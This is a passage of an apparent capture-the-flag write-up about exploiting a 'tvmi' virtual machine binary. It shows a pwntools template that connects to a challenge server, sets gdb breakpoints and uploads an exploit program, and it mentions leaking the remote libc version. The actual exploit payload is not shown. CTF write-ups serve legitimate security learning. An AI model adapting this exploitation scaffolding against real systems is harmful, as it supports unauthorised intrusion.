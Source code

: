 ```c
  i16 = {
    h = 0xc010,
    l = 0xc010
  }
}
```

Basically we don't know anything about remote target, so it would be good to gather some information - for example which `libc` version is on remote. Once we know `libc` version we can perform an attack.


### Setup

I will use pwn template which I'm usually using in pwn challenges, so we can switch between remote and local env easily. I've added `gdb` alias for printing vm's `esp` register value and also breakpoint which allow us to inspect some things before VM starts to execute code.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

elf = context.binary = ELF('./bin/tvmi', checksec=True)
# context.terminal = ["terminator", "-u", "-e"]
context.terminal = ["remotinator", "vsplit", "-x"]


def get_conn(argv=[], *a, **kw):
	host = args.HOST or '198.11.180.84'
	port = int(args.PORT or 6666)
	if args.GDB:
		return gdb.debug([elf.path] + argv, gdbscript=gdbscript, env=env, *a, **kw)
	elif args.REMOTE:
		return remote(host, port)
	else:
		return process([elf.path] + argv, env=env, *a, **kw)

gdbscript = '''
b *tvm_vm_run
alias sp = p *(vm.mem.registers+6)
continue
'''
gdbscript = '\n'.join(line for line in gdbscript.splitlines() if line and not line.startswith('#'))
env = {}

io = get_conn(argv=['./exp.vm'])
r = lambda x: io.recv(x)
rl = lambda: io.recvline(keepends=False)
ru = lambda x: io.recvuntil(x, drop=True)
cl = lambda: io.clean(timeout=1)
s = lambda x: io.send(x)
sa = lambda x, y: io.sendafter(x, y)
sl = lambda x: io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
ia = lambda: io.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)


if args.REMOTE:
	exp = open("./exp.vm").read()
	sla(b'(< 4096) :', str(len(exp)).encode())
	s(exp.encode())
```